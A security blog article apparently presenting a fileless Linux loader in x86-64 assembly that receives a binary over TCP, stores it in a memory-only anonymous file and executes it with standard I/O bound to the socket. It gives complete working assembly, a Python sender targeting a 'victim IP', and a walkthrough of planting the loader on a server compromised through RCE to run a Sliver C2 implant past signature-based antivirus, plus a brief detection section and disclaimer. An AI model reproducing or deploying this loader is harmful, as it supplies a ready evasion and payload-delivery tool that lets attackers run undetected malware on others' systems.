





<div class="article-header">
<h1>Fileless Loader</h1>
<span class="article-meta">17/03/2026 · 60 min</span>
</div>

Fileless Loader implemented in x86-64 assembly. Using only syscalls, no dependencies.

---

!!! warning "Responsible use"
    The content of this website is published **exclusively for educational and informational purposes**. The author **does not promote, endorse, or accept responsibility** for any misuse or illegal use of the information presented here. Any action taken based on this content must be carried out **only** in controlled environments, on systems you own, or **with explicit and verifiable authorization** from the system owner.

## Introduction

**Executing a binary without writing anything to disk** is one of the foundations of modern evasion-oriented malware. The premise is straightforward: **if the malicious executable never gets written to disk, security solutions based on filesystem analysis**, such as antivirus software, EDRs with static detection capabilities, or filesystem-focused IDSes, **lack a direct surface to act upon**.

The technique detailed in this article exploits the Linux kernel's ability to create and execute anonymous, memory-backed files.

## Execution Flow

The complete flow, from the incoming connection to binary execution in memory, is as follows:

1. **Entry point.** A TCP socket is created and set to listen mode, waiting for incoming connections. When one arrives, it is accepted and a communication channel with the client is established.
2. **Child process creation.** To avoid blocking the *loader*, the process forks at this point. The parent yields the connection and immediately returns to wait for the next one. The child retains it and continues the flow.
3. **Child session detachment.** The child detaches from any active terminal or session to operate completely independently from the parent.
4. **Binary size reception.** The client sends the size in bytes of the executable it is about to transmit. The child receives this information and stores it.
5. **Anonymous file creation.** This file will reside exclusively in memory and is initially empty.
6. **Anonymous file expansion.** The anonymous file is expanded to the exact size of the binary to be received (obtained in step 4).
7. **Shared mapping between process and file.** The file is mapped into the child process's address space such that any write to that memory region is reflected directly in the file.
8. **Binary reception.** The child reads the binary content from the socket and writes it to the mapped region. As it does so, the anonymous file is simultaneously written with the executable's content.
9. **Mapping removal.** The shared mapping has served its purpose, so it is removed from the child process's address space (the anonymous file remains intact).
10. **I/O redirection to the socket.** `stdin`, `stdout` and `stderr` of the process are redirected to the client socket, so that any input or output from the executed binary travels directly over the network connection.
11. **Execute the binary in memory.** This operation is performed by pointing directly to the file descriptor that identifies the anonymous file.

You can visualize the execution flow in more detail [here](RAZOR/flowchart_loader.html).

## Step-by-Step Loader Walkthrough

This section covers the syscalls involved in each step, their arguments, implementation choices and the kernel constraints that shape the design.

### **Step 1: Entry Point**

For the *loader* to receive binaries over the network, it first needs an entry point: a TCP socket the client can connect to. This involves three chained steps:

1. **`socket`** creates the communication endpoint and returns a file descriptor that identifies it. It is told to work with IPv4 addresses (`AF_INET`) and to use the connection-oriented TCP protocol (`SOCK_STREAM`).

    ```nasm
        ; SOCKET
        mov rax, 41   ; syscall number (socket)
        mov rdi, 2    ; address family (AF_*) -> AF_INET == 2
        mov rsi, 1    ; socket type (SOCK_*) -> SOCK_STREAM == 1
        xor rdx, rdx  ; protocol (0 = default)
        syscall 

        ; ----------------------------------
        mov r12, rax   ; socket FD          -
        ; ----------------------------------
    ```

2. **`bind`** associates the socket with an address and port, established via the `sockaddr_in` structure for IPv4. Without this call, the socket exists but has no assigned address (the client has nowhere to connect to).

    ```nasm
    ; .data section

    ; sockaddr_in structure setup
        sockaddr_in:
            dw 2                ; sin_family = AF_INET
            dw 0x5C11           ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11)
            dd 0x00000000       ; sin_addr = 0.0.0.0 (accepts from all network interfaces)
            dq 0                ; sin_zero (padding)
        
        
    ; Memory layout (16 bytes):
    ;
    ;  02 00  5C 11  00 00 00 00  00 00 00 00 00 00 00 00
    ;  └──┘   └──┘   └─────────┘  └──────────────────────┘
    ;  0-1    2-3       4-7               8-15
    ;  Fam    Port      IP              Padding
    ```

    ```nasm
        ; BIND
        mov rax, 49                  ; syscall number (bind)
        mov rdi, r12                 ; socket file descriptor 
        lea rsi, [rel sockaddr_in]   ; pointer to struct sockaddr with the local address
        mov rdx, 16                  ; size of the address structure in bytes
        syscall
    ```

3. **`listen`** marks a socket as passive, telling the kernel that this socket will be used to accept incoming connections rather than initiate outgoing ones.

    ```nasm
        ;LISTEN
        mov rax, 50           ; syscall number (listen)
        mov rdi, r12          ; socket file descriptor
        mov rsi, 1            ; maximum size of the pending connections queue
        syscall
    ```

At this point the socket is configured and listening, but there are no active connections yet.

`accept` blocks execution until there is a pending connection in the queue. At that point it creates a new connected socket and returns the file descriptor that references it, leaving the original socket free to keep accepting connections.

```nasm
; accept_loop allows the loader to handle multiple connections
accept_loop:

		;ACCEPT
    mov rax, 43    ; syscall number (accept)
    mov rdi, r12   ; listening socket descriptor (after bind + listen)
    xor rsi, rsi   ; pointer to struct sockaddr to store the client's address (or NULL)
    xor rdx, rdx   ; pointer to socklen_t with the addr buffer size (or NULL)
    syscall

    ; ----------------------------------------
    mov r13, rax  ; connected socket FD      -
    ; ----------------------------------------
```

### **Step 2: Child Process Creation**

If the process handled each incoming binary sequentially, it could not accept a new connection until execution of the previous payload finished. The solution is to fork the process at the moment a new connection arrives, so the parent immediately returns to the listen loop and the child handles loading and execution independently.

For this, we use `clone3` instead of the classic `fork`. `clone3` does not accept flags directly as an argument. Instead, it operates on a `struct clone_args` of 88 bytes that precisely describes the child process's behavior.

```nasm
    ; .data section
    
    ; Arguments defining the process clone
    ; struct clone_args (88 bytes)
    clone_args:
        dq 0                ; flags
        dq 0                ; pointer to store pidfd (if CLONE_PIDFD)
        dq 0                ; pointer to write child TID (if CLONE_CHILD_SETTID)
        dq 0                ; pointer to write TID in parent (if CLONE_PARENT_SETTID)
        dq 17               ; signal to send to parent when child exits (e.g. SIGCHLD = 17)
        dq 0                ; base address of child stack
        dq 0                ; size of child stack
        dq 0                ; pointer to TLS structure (if CLONE_SETTLS)
        dq 0                ; pointer to namespace-forced PID array
        dq 0                ; number of elements in set_tid
        dq 0                ; target cgroup FD (if CLONE_INTO_CGROUP)
        

```

```nasm
; CLONE3
    mov rax, 435                     ; syscall number (clone3)
    lea rdi, [rel clone_args]        ; pointer to struct clone_args
    mov rsi, 88                      ; size of the clone_args structure
    syscall

    cmp rax, 0
    jg accept_loop    ; rax > 0  →  PARENT: return to wait
                      ; rax == 0 → CHILD: continue
```

### **Step 3: Child Session Detachment**

The child process inherits the parent's session and process group, as well as the associated controlling terminal. This is a problem: if that terminal closes, the kernel sends `SIGHUP` to all processes in the group, which would terminate the loading in progress.

`setsid` resolves this by creating a new session, making the child its sole member and leader. No longer belonging to any session with a controlling terminal, the child becomes completely isolated and can operate autonomously.

```nasm
; SETSID
    mov rax, 112    ; syscall number (setsid)
    syscall
```

### **Step 4: Binary Size Reception**

To create the anonymous file with the correct size and map it into memory, the loader needs to know in advance how many bytes the binary it will receive occupies. The client will send this data before the payload itself, in this case, as a 64-bit integer (8 bytes) in little-endian format.

`recvfrom` reads data from the connected socket and writes it into a buffer.

```nasm
; .bss section
    buff_lg: resq 1    ; buffer to store the binary size (64 bits)
```

```nasm
; recvfrom may return fewer bytes than requested; the recv_lg loop
; accumulates in a register the offset until all 8 expected bytes arrive.

recv_lg:

    add r15, rax

    ;RECVFROM
    mov rax, 45             ; syscall number (recvfrom)
    mov rdi, r13            ; socket descriptor
    lea rsi, [rel buff_lg]  ; address of the buffer to store data
    add rsi, r15
    mov rdx, 8              ; maximum buffer size (bytes to receive)
    sub rdx, r15
    xor r10, r10            ; receive flags (MSG_*)
    xor r8, r8              ; pointer to struct sockaddr (or NULL)
    xor r9, r9              ; pointer to socklen_t (or NULL)
    syscall

    cmp rax, 0
    jg recv_lg
```

### **Step 5: Anonymous File Creation**

With the binary size now known, the next step is to create the container that will store it. We need a file that can be operated on but leaves no trace in the filesystem. For this, we can use the functionality offered directly by the Linux kernel.

`memfd_create` **creates an anonymous file in memory** and returns a file descriptor that identifies it. The file resides in an internal kernel `tmpfs` mount (not in any filesystem visible to the user) and is backed exclusively by RAM (and swap if necessary).

!!! info ""
    The flag `MFD_EXEC (0x0010)` is used to explicitly mark that the file will contain executable content.

```nasm
; .data section
    memfd_name db '', 0    ; memfd name
```

```nasm
    ;MEMFD_CREATE
    mov rax, 319                   ; syscall number (memfd_create)
    lea rdi, [rel memfd_name]      ; pointer to C-string with the name (informational)
    mov rsi, 0x0010                ; behavior flags (MFD_*)  MFD_EXEC == 0x0010
    syscall

    ; --------------------------------
    mov r14, rax   ; memfd FD       -
    ; --------------------------------
```

### **Step 6: Anonymous File Expansion**

A file just created with `memfd_create` has zero size (0 bytes). This is a problem for the next step, since `mmap` needs concrete pages on which to establish the mapping and an empty file has none allocated.

`ftruncate` sets the size of a file referenced by a file descriptor. If the specified size is smaller than the current one, content beyond that point is lost. If larger, the file is extended with zero bytes.

After this call, the file has the correct size and the necessary pages are reserved, ready to be mapped and written.

```nasm
    ; FTRUNCATE
    mov rax, 77                  ; syscall number (ftruncate)
    mov rdi, r14                 ; file descriptor
    mov rsi, [rel buff_lg]       ; new size in bytes
    syscall
```

### **Step 7: Shared Mapping Between Process and File**

With the anonymous file created and sized, the next step is to map its contents into the child process's address space via `mmap`, which returns a virtual address from which to operate directly on it.

The mapping option depends on a flag:

- With `MAP_SHARED`, process and file share the same physical pages in the page cache, so any write to the mapped region is immediately reflected in the file (this is what we want).
- With `MAP_PRIVATE`, the kernel applies copy-on-write: writes generate a private copy visible only to the process, leaving the underlying file unmodified.

```nasm
		;MMAP
    mov rax, 9              ; syscall number (mmap)
    mov rdi, 0              ; suggested address (0 = let the OS choose)
    mov rsi, [rel buff_lg]  ; size in bytes to allocate (e.g. 4096 = 1 page)
    mov rdx, 3              ; protection permissions (PROT_*)  PROT_READ | PROT_WRITE = 0x3
    mov r10, 1              ; mapping options (MAP_*)  MAP_SHARED  = 0x01
    mov r8, r14             ; file descriptor (for file mapping; -1 if not applicable)
    mov r9, 0               ; offset within the file (multiple of page size)
    syscall
```

### **Step 8: Binary Reception**

Data is read directly from the socket and written to the mapped region with no intermediaries. Since process and file share the same physical pages in the page cache, writing to the mapped region is simultaneously a write to the anonymous file.

As with size reception, the loop handles partial receives until all expected bytes are complete.

```nasm
   mov r12, rax   ; RAX - contains the base address of the reserved memory block
   xor r15, r15   ; R15 - contains the offset into the shared memory region

recv_all:

    add r15, rax

    ;RECVFROM
    mov rax, 45               ; syscall number (recvfrom)
    mov rdi, r13              ; socket descriptor
    mov rsi, r12              ; address of the buffer to store data
    add rsi, r15
    mov rdx, [rel buff_lg]    ; maximum buffer size (bytes to receive)
    sub rdx, r15
    xor r10, r10              ; receive flags (MSG_*)
    xor r8, r8                ; pointer to struct sockaddr (or NULL)
    xor r9, r9                ; pointer to socklen_t (or NULL)
    syscall

    cmp rax, 0
    jg recv_all
```

Once the loop completes, the anonymous file contains the full binary, ready to execute.

### **Step 9: Mapping Removal**

Once the binary is complete in the anonymous file, the shared mapping that links the child process to the file is no longer needed. `munmap` releases that region from the address space.

```nasm
    ; MUNMAP
    mov rax, 11              ; syscall number (munmap)
    mov rdi, r12             ; base address of the mapping to remove
    mov rsi, [rel buff_lg]   ; size in bytes to unmap
    syscall
```

### **Step 10: I/O Redirection to the Socket**

Before executing the binary, it is advisable to redirect `stdin`, `stdout` and `stderr` of the child process to the client socket. This allows sending input to the payload remotely and reading its output.

`dup3` duplicates an existing file descriptor (FD) onto another specific FD number, closing the target FD first if it was already open. After the call, both point to the same open file description (same offset and file status flags).

`dup3` is executed in a loop to redirect the mentioned descriptors to the client socket:

```nasm
xor rsi,rsi     ; target file descriptor (0=stdin, 1=stdout, 2=stderr)
dup3:
    ; DUP3
    mov rax, 292    ; syscall number (dup3)
    mov rdi, r13    ; existing file descriptor to duplicate
    xor rdx, rdx    ; flags: 0 or O_CLOEXEC (0x80000)
    syscall
    inc rsi
    cmp rsi, 3
    jl dup3
```

| Iteration | RSI | Effect |
| --- | --- | --- |
| 1 | 0 | `stdin` → client socket |
| 2 | 1 | `stdout` → client socket |
| 3 | 2 | `stderr` → client socket |

After the loop, all standard I/O of the child process is bound to the socket. When `execveat` replaces the process image with that of the loaded binary, the binary will inherit the already-redirected descriptors, as a result, any write to `stdout` or `stderr` will reach the client over the TCP connection and any read from `stdin` will use data sent by the client.

### **Step 11: Execute the Binary in Memory**

The final step is to execute the binary now residing in the anonymous file. The problem is that `execve` requires a path and the anonymous file has none. This is where `execveat` comes in.

`execveat` allows executing a binary referenced by a file descriptor. When the `AT_EMPTY_PATH` flag is used and an empty string is provided as the path, the kernel uses the FD as the identifier of the file to execute.

```nasm
; .data section
    exec_path db '', 0     ; empty path so execveat executes by FD
```

```nasm
    ;EXECVEAT
    mov rax, 322              ; syscall number (execveat)
    mov rdi, r14              ; base directory descriptor (or AT_FDCWD, or executable FD)
    lea rsi, [rel exec_path]  ; pointer to C-string with the path (can be "")
    xor rdx, rdx              ; pointer to array of C-string pointers (NULL-terminated)
    xor r10, r10              ; pointer to array of C-string pointers (NULL-terminated)
    mov r8, 0x1000            ; resolution flags (AT_*) AT_EMPTY_PATH = 0x1000
    syscall
```

## Full Code (fileless_loader.asm)

```nasm
section .data

    memfd_name db '', 0    ; memfd name
    exec_path db '', 0     ; empty path so execveat executes by FD

    ; Arguments defining socket properties
    ; struct sockaddr_in (16 bytes)
    sockaddr_in:
        dw 2                ; sin_family = AF_INET
        dw 0x5C11           ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11)
        dd 0x00000000       ; sin_addr = 0.0.0.0 (accepts from all network interfaces)
        dq 0                ; sin_zero (padding)

    ; Arguments defining the process clone
    ; struct clone_args (88 bytes)
    clone_args:
        dq 0                ; flags     CLONE_PIDFD = 0x00001000
        dq 0                ; pointer to store pidfd (if CLONE_PIDFD)
        dq 0                ; pointer to write child TID (if CLONE_CHILD_SETTID)
        dq 0                ; pointer to write TID in parent (if CLONE_PARENT_SETTID)
        dq 17               ; signal to send to parent when child exits (e.g. SIGCHLD = 17)
        dq 0                ; base address of child stack
        dq 0                ; size of child stack
        dq 0                ; pointer to TLS structure (if CLONE_SETTLS)
        dq 0                ; pointer to namespace-forced PID array
        dq 0                ; number of elements in set_tid
        dq 0                ; target cgroup FD (if CLONE_INTO_CGROUP)

section .bss
    buff_lg: resq 1           ; buffer to store the binary size (8 bytes)

section .text

global _start
_start: 

; 1 - Create listening socket

    ; SOCKET
    mov rax, 41   ; syscall number (socket)
    mov rdi, 2    ; address family (AF_*)
    mov rsi, 1    ; socket type (SOCK_*), optionally OR'd with flags
    xor rdx, rdx  ; protocol (0 = default)
    syscall 

    ; ----------------------------------
    mov r12, rax   ; socket FD          -
    ; ----------------------------------

    ; BIND
    mov rax, 49                  ; syscall number (bind)
    mov rdi, r12                 ; socket file descriptor 
    lea rsi, [rel sockaddr_in]   ; pointer to struct sockaddr with the local address
    mov rdx, 16                  ; size of the address structure in bytes
    syscall

    ;LISTEN
    mov rax, 50           ; syscall number (listen)
    mov rdi, r12          ; socket file descriptor
    mov rsi, 1            ; maximum size of the pending connections queue
    syscall

accept_loop:

    ;ACCEPT
    mov rax, 43    ; syscall number (accept)
    mov rdi, r12   ; listening socket descriptor (after bind + listen)
    xor rsi, rsi   ; pointer to struct sockaddr to store client address (or NULL)
    xor rdx, rdx   ; pointer to socklen_t with addr buffer size (or NULL)
    syscall

    ; ----------------------------------------
    mov r13, rax  ; connected socket FD      -
    ; ----------------------------------------

; 2 - Fork child process and detach from parent

    ; CLONE3
    mov rax, 435                  ; syscall number (clone3)
    lea rdi, [rel clone_args]     ; pointer to struct clone_args
    mov rsi, 88                   ; size of the clone_args structure
    syscall

    cmp rax, 0
    jg accept_loop

    ; SETSID
    mov rax, 112    ; syscall number (setsid)
    syscall

; 3 - Receive binary size in bytes

    xor r15, r15
    xor rax, rax

recv_lg:

    add r15, rax

    ;RECVFROM
    mov rax, 45             ; syscall number (recvfrom)
    mov rdi, r13            ; socket descriptor
    lea rsi, [rel buff_lg]  ; address of the buffer to store data
    add rsi, r15
    mov rdx, 8              ; maximum buffer size (bytes to receive)
    sub rdx, r15
    xor r10, r10            ; receive flags (MSG_*)
    xor r8, r8              ; pointer to struct sockaddr (or NULL)
    xor r9, r9              ; pointer to socklen_t (or NULL)
    syscall

    cmp rax, 0
    jg recv_lg

; 4 - Create anonymous tmpfs file

    ;MEMFD_CREATE
    mov rax, 319                   ; syscall number (memfd_create)
    lea rdi, [rel memfd_name]      ; pointer to C-string with the name (informational)
    mov rsi, 0x0010                ; behavior flags (MFD_*)  MFD_EXEC = 0x0010
    syscall

    ; --------------------------------
    mov r14, rax   ; memfd FD       -
    ; --------------------------------

; 5 - Pre-expand the tmpfs file to the required size (filled with zeros)

    ; FTRUNCATE
    mov rax, 77                  ; syscall number (ftruncate)
    mov rdi, r14                 ; file descriptor
    mov rsi, [rel buff_lg]       ; new size in bytes
    syscall

; mmap with MAP_SHARED on a fd maps real pages of the file.
; If the file is 0 bytes there are no pages to map; the kernel rejects the operation.
; ftruncate pre-expands the file to the required size, reserving those pages in tmpfs,
; so that mmap has something concrete to work with.

; 6 - Create shared memory region between child process and tmpfs file

    ;MMAP
    mov rax, 9              ; syscall number (mmap)
    mov rdi, 0              ; suggested address (0 = let the OS choose)
    mov rsi, [rel buff_lg]  ; size in bytes to allocate (e.g. 4096 = 1 page)
    mov rdx, 3              ; protection permissions (PROT_*)  PROT_READ | PROT_WRITE = 0x3
    mov r10, 1              ; mapping options (MAP_*)  MAP_SHARED  = 0x01
    mov r8, r14             ; file descriptor (for file mapping; -1 if not applicable)
    mov r9, 0               ; offset within the file (multiple of page size)
    syscall

; 7 - Write received content to the shared memory region

    xor r12, r12
    mov r12, rax   ; RAX - contains the base address of the reserved memory block
    xor r15, r15   ; R15 - contains the offset into the shared memory region
    xor rax, rax

recv_all:

    add r15, rax

    ;RECVFROM
    mov rax, 45               ; syscall number (recvfrom)
    mov rdi, r13              ; socket descriptor
    mov rsi, r12              ; address of the buffer to store data
    add rsi, r15
    mov rdx, [rel buff_lg]    ; maximum buffer size (bytes to receive)
    sub rdx, r15
    xor r10, r10              ; receive flags (MSG_*)
    xor r8, r8                ; pointer to struct sockaddr (or NULL)
    xor r9, r9                ; pointer to socklen_t (or NULL)
    syscall

    cmp rax, 0
    jg recv_all

; 8 - Detach child process from the shared memory region

    ; MUNMAP
    mov rax, 11              ; syscall number (munmap)
    mov rdi, r12             ; base address of the mapping to remove
    mov rsi, [rel buff_lg]   ; size in bytes to unmap
    syscall

; 9 - Redirect stdin/stdout/stderr to the socket

    xor rsi,rsi     ; target file descriptor (0=stdin, 1=stdout, 2=stderr)
dup3:
    ; DUP3
    mov rax, 292    ; syscall number (dup3)
    mov rdi, r13    ; existing file descriptor to duplicate
    xor rdx, rdx    ; flags: 0 or O_CLOEXEC (0x80000)
    syscall
    inc rsi
    cmp rsi, 3
    jl dup3

; 10 - Execute the tmpfs file content

    ;EXECVEAT
    mov rax, 322              ; syscall number (execveat)
    mov rdi, r14              ; base directory descriptor (or AT_FDCWD, or executable FD)
    lea rsi, [rel exec_path]  ; pointer to C-string with the path (can be "")
    xor rdx, rdx              ; pointer to array of C-string pointers (NULL-terminated)
    xor r10, r10              ; pointer to array of C-string pointers (NULL-terminated)
    mov r8, 0x1000            ; resolution flags (AT_*) AT_EMPTY_PATH = 0x1000
    syscall

exit:
    ; EXIT
    mov rax, 60
    xor rdi, rdi  
    syscall

```

## Sender

Before transferring the binary, the client must send its size in a first fixed-length message (8 bytes in little-endian).

The following script sends both the size and the content:

```python
import socket
import struct
import sys

HOST = '192.168.18.244'   # victim IP
PORT = 4444               # port where the loader is listening

with open(sys.argv[1], 'rb') as f:
    binary = f.read()

size = struct.pack('<Q', len(binary))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.sendall(size)
s.sendall(binary)

s.shutdown(socket.SHUT_WR)

print("[*] Waiting for output...\n")

try:
    while True:
        data = s.recv(4096)
        if not data:
            print("\n[!] Connection closed by server")
            break
        print(data.decode(errors='replace'), end='', flush=True)
except KeyboardInterrupt:
    print("\n[*] Exiting...")
finally:
    s.close()

```

If the binary to execute produces no output and expects no input, this simpler script can be used:

```python
import socket
import struct
import sys

HOST = '192.168.18.244'   # victim IP
PORT = 4444               # port where the loader is listening

with open(sys.argv[1], 'rb') as f:
    payload = f.read()

size = struct.pack('<Q', len(payload))

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.sendall(size + payload)
    print(f"[+] Sent {len(payload)} bytes")
```

## Building

```bash
# Build the loader (attacker machine)
nasm -f elf64 fileless_loader.asm -o fileless_loader.o
ld fileless_loader.o -o fileless_loader

# Run the loader (listens on 127.0.0.1:4444) (victim machine)
./fileless_loader

# Send a binary to the loader (attacker machine)
python3 sender.py /<path>/<binary>

```

## Practical Case

A Linux web server has been compromised by exploiting a remote code execution (RCE) vulnerability that allows running commands as `www-data`. The server has a **security solution** with real-time protection **continuously monitoring filesystem activity**. This mechanism analyzes read, write and execute operations on files, with the goal of identifying potentially malicious behavior.

In particular, the solution incorporates **signature-based detection mechanisms**, comparing files present in or recently added to the system against a database of signatures associated with known offensive tools and malware. When a match is detected, the system blocks or quarantines the file, preventing its execution and reducing the risk of system compromise.

**The goal is to establish a complete Command & Control (C2) channel with the compromised machine**, allowing interactive command execution, file upload/download, pivoting to other network segments and maintaining persistence. For this, a [Sliver](https://github.com/BishopFox/sliver) implant will be used. The implant is a static ELF binary that, when executed, autonomously establishes an encrypted (mTLS) connection back to the attacker's C2 server.

**If the implant is transferred directly to the victim's disk, the security solution will detect it by its signature and delete it before it can execute.** Sliver implants are quickly detected by security solutions due to their static signatures.

The *loader* bypasses this barrier by exploiting a key concept: **the separation of the infrastructure that initiates execution from the executed content**. The *loader* itself contains no offensive payload: there is no embedded shellcode, no exploits, no suspicious strings. To a signature-based scanner it is a clean binary. The implant, for its part, never touches disk. It arrives over the network and executes directly from an anonymous file that exists only as pages in RAM, making it invisible to the detection engine.

### Preparation

**C2 Infrastructure**

On the attacker machine (`192.168.18.245`), the Sliver server is started and the implant for Linux x86-64 is generated. All configuration is embedded within the binary.

```bash
# Start Sliver (attacker machine)
sliver-server

# Generate the implant (attacker machine)
generate --mtls <sliver_lst_ip>:<sliver_lst_port> --os linux --arch amd64 --format exe --save <dst_path>
```



The result is a static ELF that, when executed, will establish an mTLS connection back to the C2.

Before executing the implant, remember to have the mTLS listener active to receive the incoming connection.

```bash
# Start mTLS listener
mtls --lport <sliver_lst_port>
```



**Loader**

Configure the IPv4 address and listening port of the *loader*. The `sockaddr_in` structure of the *loader* will be configured with address `0.0.0.0` and port `4444`. The address `0.0.0.0` tells the kernel that the socket should accept incoming connections on any available network interface on the machine, rather than restricting it to a specific IP.

```nasm
; fileless_loader.asm (.data section)

    sockaddr_in:
        dw 2                ; sin_family = AF_INET
        dw 0x5C11           ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11)
        dd 0x00000000       ; sin_addr = 0.0.0.0 (accepts from all network interfaces)
        dq 0                ; sin_zero (padding)

```

Build the *loader*.

```bash
# Attacker machine
nasm -f elf64 <loader.asm> -o <loader.o>
ld <loader.o> -o <loader>
```



### Deploying the Loader

Send the *loader* encoded as Base64 and execute it on the target machine via the RCE vulnerability. The *loader* will listen in the background on port `4444`.

```bash
# Encode the loader to Base64 and copy to clipboard (attacker machine)
base64 -w 0 <loader> | xclip -selection clipboard

# Decode and store the loader on the target (victim machine)
echo '<Base64>' | base64 -d > /dev/shm/fl

# Grant execute permissions (victim machine)
chmod +x /dev/shm/fl

# Execute the loader in the background (victim machine)
./fl &
```

Even if the security engine scans the *loader* when it is created, it will find no offensive signatures.

### Executing the Sliver Implant

From the attacker machine, send the implant to the *loader*.

```bash
# Attacker machine
python3 sender.py <implant_path>
```



The *loader* receives the implant, stores it in an anonymous file in memory, and executes it. The implant, in turn, starts executing and establishes the encrypted mTLS connection back to the C2.



The result is a fully operational C2 channel with all the capability Sliver offers. The implant, at no point, existed as a file on the filesystem.

## Detection

**Security solutions based on static filesystem analysis are ineffective against this technique.** The loader, incorporating no offensive payload, presents no signatures or patterns that can be correlated with known malicious activity. The binary, for its part, never reaches disk, so there is no surface on which to identify the malicious activity.
**Identifying this technique requires a shift in focus toward runtime behavior monitoring.** The main detection paths involve identifying active processes with no associated executable in the filesystem, monitoring network connections to systems outside the organization, or detecting patterns that deviate from the expected behavior for a given process or user.

!!! info ""
    Note that some modern security solutions **already incorporate detection capabilities aimed at identifying the primitives used by this type of loader**, such as the creation of anonymous files in memory with execute permission. The effectiveness of these detections varies depending on the product and its configuration.

## Acknowledgements

Thanks for making it this far.

If you find errors or want to improve/extend the article, the blog content is open to Pull Requests. All contributions are welcome.

See you in the next article! ;)
